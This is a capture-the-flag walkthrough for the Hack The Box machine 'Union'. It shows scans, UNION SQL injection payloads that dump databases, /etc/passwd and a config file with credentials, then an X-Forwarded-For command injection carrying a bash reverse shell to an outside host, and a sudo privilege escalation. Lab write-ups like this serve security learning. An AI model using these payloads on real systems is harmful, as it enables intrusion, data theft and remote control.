

# [Union](https://app.hackthebox.com/machines/Union)

```bash
nmap -p- --min-rate 10000 10.10.11.128 -Pn
```


After detection of open port (80), let's do greater scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.128 -Pn
```


Let's do `Directory Enumeration` via `gobuster` tool.
```bash
gobuster dir -u http://10.10.11.128/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -t 40
```


While browsing `challenge.php`, it asks flag from me.


But on main page, I mean `index.php`, there's requst like asking username from me.



Our request is like below.


We can fuzz here via `SQLI` payloads.


Let's add `UNION SQLI` payload into here.
```bash
player=test' union select user();-- -
```


Let's dump `databases` names via below payload.
```bash
player=test' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata;-- -
```


Let's select `november` database and dump tables from here.
```bash
player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november';-- -
```


Let's dump data from `flag` table.
```bash
player=' union select group_concat(one) from flag;-- -
```


Flag: UHC{F1rst_5tep_2_Qualify}


We need to enter this into `/challenge.php` file.While we enter this flag, it says such an answer from `firewall.php` file.


Let's dump local files via this `SQL Injection` attack by using `load_file()` function of MySQL.
```bash
player=' union select load_file('/etc/passwd');-- -
```


Let's dump `config.php` file which is located on `var/www/html/config.php` directory.
```bash
player=' union select load_file('/var/www/html/config.php');-- -
```


I take credentials from here for my target machine.

uhc: uhc-11qual-global-pw

Let's check this credentials via `ssh` command.

user.txt


I just make enumeration for files and find interesting stuff from `firewall.php` file.


From this file, you can see `system` function which executes system commands and it is dangerous.
```bash
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

If we abuse here by adding malicious content into `X-Forwarded-For` HTTP request header, we can execute system commands.

Note: `X-Forwarded-For` http request header is used to detect IP address of client. Here's also implemented.

Let's check by sending request which contains system command `ping` to see `Command Injection` attack works or not.
```bash
X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.18;
```


I can see this command executed or not via `tcpdump -I tun0` cmdlet.


Now, it's time for `reverse shell` adding to this `Command Injection` part.
```bash
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.18/1337 0>&1";
```


Hola!, I got reverse shell from port `1337`.


Let's make interactive shell via below commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


Let's check privileges of this user via `sudo -l` command.


As you see, that's so easy part of `Privilege Escalation`, it means if we do `sudo -s`, we can get root shell.

root.txt

